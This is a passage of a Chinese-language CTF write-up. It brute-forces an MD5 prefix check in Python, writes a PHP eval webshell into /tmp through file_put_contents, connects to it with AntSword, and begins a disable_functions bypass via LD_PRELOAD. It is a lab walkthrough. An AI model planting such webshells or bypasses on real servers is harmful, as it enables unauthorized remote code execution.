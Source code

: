 也可以一个字符一个字符的异或得到（脚本比较简单）



下面绕过`if语句`，看到提示是纯数字，直接爆破

```python
import hashlib
for i in range(10000000):
    a=hashlib.md5(str(i).encode('utf-8')).hexdigest()
    if a[0:6]=='666666':
        print(i)
```

官方的脚本

```pytho
def burte2(target):
    def md5(s: str, encoding='utf-8') -> str:
        from hashlib import md5
        return md5(s.encode(encoding=encoding)).hexdigest()
    for i in range(10000000):
        if md5(str(i))[:6] == target:
            return i
            break
print(burte2("666666"))
```

得到绕过后，开始执行命令，看phpinfo():

发现它既有`disable_funtions`禁用了一堆函数，也有`openbase_dir`，只能访问`/var/www/html`和`/tmp`



（因为环境已经关了，只有借用师傅的图了）

函数没有禁用`file_put_contents()`,经过测试，我们可以向`/tmp`直接写入马

```php
code=file_put_contents('/tmp/ma.php','<?php eval($_POST[1]);');
```

![image.png](https://i.loli.net/2021/11/03/nHw8dMDTOk4ue5i.png)



看到我们成功写入马了，后面就简单了，直接蚁剑连接。

![image.png](https://i.loli.net/2021/11/03/7zOJGYEITbuBNfy.png)



![image.png](https://i.loli.net/2021/11/09/4HlkZ7EUsMY38oe.png)

进去之后就是/tmp的目录，然后我们就需要绕过`disable_functions`

利用`LD_PRELOAD`环境变量的方法绕过

首先我们通过`file_put_contents`把php文件和so文件上传到`/tmp`下，

[这儿有现成的](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)，但是也可以自己操作。
